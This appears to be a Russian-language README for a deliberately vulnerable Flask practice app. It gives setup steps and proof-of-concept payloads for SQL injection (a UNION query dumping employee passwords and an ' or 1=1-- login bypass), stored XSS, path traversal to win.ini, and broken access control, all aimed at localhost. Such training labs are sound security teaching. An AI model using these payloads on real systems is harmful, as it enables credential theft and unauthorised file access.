 # Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd flask-app
> - python main.py
> - flask приложение будет запущено по адресу http://127.0.0.1:5000

> ![image](https://github.com/medarov411/flask-app/assets/60567375/5ed27505-01d5-4842-b756-d0771948cae6)



### Proof of Concept

SQLI:

> url - http://127.0.0.1:5000. Поисковая система

> payload: juice' UNION SELECT username,password,3 from employees;--

> ![image](https://github.com/medarov411/flask-app/assets/60567375/adda836e-7a51-4e64-9086-11bdf1dc5921)
 

> url - http://127.0.0.1:5000/login. Авторизация

> Если авторизация прошла успешно, происходит редирект на /restock(Страница добавления товара)

> Payload: ' or 1=1--

> ![image](https://github.com/medarov411/flask-app/assets/60567375/f6fd0e67-7147-4359-8efc-b4aa90d8349e)

<p>&nbsp;</p>

XSS(stored):
> xss эксплуатируется на странице добавления товара

> http://127.0.0.1:5000/restock

> payload: <script>alert("xss")</script>

> ![image](https://github.com/medarov411/flask-app/assets/60567375/b3bfa591-d097-40fa-9326-9ab75fb8727b)

> ![image](https://github.com/medarov411/flask-app/assets/60567375/a99611be-129c-4bb3-a276-5b69a514c20d)
 



<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:5000/" ведет на url "http://127.0.0.1:5000/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../windows/win.ini

> ![image](https://github.com/medarov411/flask-app/assets/60567375/a18bdcc9-360a-43fa-a936-e72d26813112)


<p>&nbsp;</p>

Broken access control:
> здесь broken access в том, что неавторизованный пользователь имеет доступ к функционалу добавления товара

> http://127.0.0.1:5000/restock
